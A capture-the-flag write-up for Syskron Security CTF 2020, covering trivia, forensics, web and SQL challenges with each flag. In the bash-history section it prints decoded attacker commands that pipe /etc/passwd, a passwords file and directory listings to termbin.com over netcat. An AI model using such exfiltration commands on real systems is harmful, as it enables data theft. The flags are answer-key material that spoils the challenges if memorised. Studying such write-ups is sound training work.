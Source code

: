 # Syskron Security CTF 2020

## [Trivia] Vulnerable RTOS

> What are the names of 11 zero-day vulnerabilities that affect a wide range of real-time operating systems?

- https://www.armis.com/urgent11/
- Flag: syskronCTF{Urgent/11}

## [Trivia] Deadly malware

>  Which malware targets safety systems of industrial networks and caused deaths due to explosion?

- https://www.wired.com/story/triton-malware-targets-industrial-safety-systems-in-the-middle-east/
- Flag: syskronCTF{Triton}

## [Trivia] Security framework

> In 2018, the NIST published version 1.1 of their Cybersecurity Framework. What are the abbreviated names of the five core functions?

- https://nvlpubs.nist.gov/nistpubs/CSWP/NIST.CSWP.04162018.pdf (p. 6)
- Flag: syskronCTF{ID-PR-DE-RS-RC}

## [Trivia] Check digit

> We need a check digit in our keys. What do IMEI numbers, credit card numbers and UIC wagon numbers have in common?

- https://en.wikipedia.org/wiki/ISO/IEC_7812
- Flag: syskronCTF{ISO/IEC-7812}

## (Monday) [Forensics] Redacted news

> Oh, this is a news report on our Secure Line project. But someone removed a part of the story?!
>
> Hint: α

- The flag is on the missing part of the given image

![](./images/securelineChall.png)

- From the hint, we can guess that we need to remove the transparency

```python
from PIL import Image
# convert from RGBA to RGB will cancel transparency
Image.open('securelineChall.png').convert('RGB').save('securelineFlag.png')
```

![](./images/securelineFlag.png)

- Flag: syskronCTF{d0-Y0u-UNdEr5TaND-C2eCh?}

## (Monday) [Packet Analysis] DoS attack

> One customer of Senork Vertriebs GmbH reports that some older Siemens devices repeatedly crash. We looked into it and it seems that there is some malicious network traffic that triggers a DoS condition. Can you please identify the malware used in the DoS attack? We attached the relevant network traffic.
>
> Flag format: syskronCTF{name-of-the-malware}
>
> Hint: They bought some older SIPROTEC 4 protection relays.

- The `.pcap` given shows us the port used, which helps us find which malware was used

  ![](./images/DoSPort.png)

- https://www.itwire.com/security/claroty-discovers-new-vulnerability-related-to-industroyer-malware.html

- Flag: syskronCTF{Industroyer}

## (Monday) [Web] Security headers

>  Can you please check the security-relevant HTTP response headers on www.senork.de. Do they reflect current best practices? 

- Looking at the response with the dev-tools, we see the header `flag-policy` containing the flag

  ![](./images/headerFlag.png)

- Flag: syskronCTF{y0u-f0und-a-header-flag}

## (Tuesday) [Forensics] Change

> One of Senork's employees opened a link in a phishing e-mail. After this, strange things happened. But this is likely related to the attached image. I have to check it.

![](./images/change.jpg)

- Looking at the image's metadata, we see a script in the `Copyright` section

![](./images/changeScript.png)

- Executing the script in the browser's console gives us the flag

![](./images/changeFlag.png)

- Flag: syskronCTF{l00k5l1k30bfu5c473dj5}

## (Tuesday) [Best-practices] Security.txt

> The security.txt draft got updated (https://tools.ietf.org/html/draft-foudil-securitytxt-10).
>
> Is Senork's file still up-to-date? https://www.senork.de/.well-known/security.txt
>
> Hint: Signed files offer more security but less privacy.

- https://www.senork.de/.well-known/security.txt

![](./images/securityTxt.png)

- https://www.senork.de/openpgp.asc

![](./images/openpgp.png)

- We can get info on the public key

![](./images/securityTxtFlag.png)

- Flag: syskronCTF{Wh0-put3-flag3-1nto-0penPGP-key3???}

## (Tuesday) [Forensics] Bash history

> We suspect that one of BB's internal hosts has been compromised. I copied its ~./bash_history file. Maybe, there are some suspicious commands?

- Looking at the history, we can see that some commands have been base64 encoded

![](./images/bashHistoryb64.png)

- Extracting every line containing base64

```bash
echo YnJubzAwMQ== | base64 -d
echo cHMgYXggPiBwcm9jZXNzZXM= | base64 -d | bash
echo Y2F0IHByb2Nlc3NlcyB8IG5jIHRlcm1iaW4uY29tIDk5OTk= | base64 -d | bash
echo cm0gcHJvY2Vzc2Vz | base64 -d | bash
echo bHMgLWwgfCBuYyB0ZXJtYmluLmNvbSA5OTk5 | base64 -d | bash
echo xYTjBNR3hsTFdGc2JDMUVZWFJoSVNGOQ==
echo ZWNobyBjM2x6YTNKdmJrTlVSbnQwU0dWNU
echo Y2F0IC9ldGMvcGFzc3dkIHwgbmMgdGVybWJpbi5jb20gOTk5OQ== | base64 -d | bash
echo Y2F0IHBhc3N3b3Jkcy50eHQgfCBuYyB0ZXJtYmluLmNvbSA5OTk5 | base64 -d | bash
```

- Gives us

```
brno001
ps ax > processes
cat processes | nc termbin.com 9999
rm processes
ls -l | nc termbin.com 9999
ńwtg6$3U&4c
echo c3lza3JvbkNURnt0SGV5
cat /etc/passwd | nc termbin.com 9999
cat passwords.txt | nc termbin.com 9999
```

- Decoding `c3lza3JvbkNURnt0SGV5` gives us `syskronCTF{tHey`
  - So we take the only string that doesn't give us a readable result and try to append it to the base64 containing the beginning of the flag (random stuff, always fun)
  - Finally we try `ZWNobyBjM2x6YTNKdmJrTlVSbnQwU0dWNUxYTjBNR3hsTFdGc2JDMUVZWFJoSVNGOQ==`, which gives us `c3lza3JvbkNURnt0SGV5LXN0MGxlLWFsbC1EYXRhISF9` which decodes to the flag

- Flag: syskronCTF{tHey-st0le-all-Data!!}

## (Tuesday) [SQL] Leak audit

> We found an old dump of our employee database on the dark net! Please check the database and send us the requested information:
>
> 1. How many employee records are in the file?
> 2. Are there any employees that use the same password? (If true, send us the password for further investigation.)
> 3. In 2017, we switched to bcrypt to securely store the passwords. How many records are protected with bcrypt?
>
> Flag format: answer1_answer2_answer3 (e.g., 1000_passw0rd_987).
>
> Hint: Knowing SQL doesn't hurt.

- For this challenge, we simply need to make SQL queries to get the desired answers

  1. ```sql
     SELECT COUNT(*)
     FROM personal;
     ```

     --> 376

  2. ```sql
     SELECT password
     FROM personal
     GROUP BY password
     HAVING count(*) > 1
     ORDER BY password DESC
     ```

     --> mah6geiVoo

  3. ```sql
     SELECT COUNT(*)
     FROM personal
     WHERE password like '$2b$%'
     ```

     --> 21

- Flag: syskronCTF{376_mah6geiVoo_21}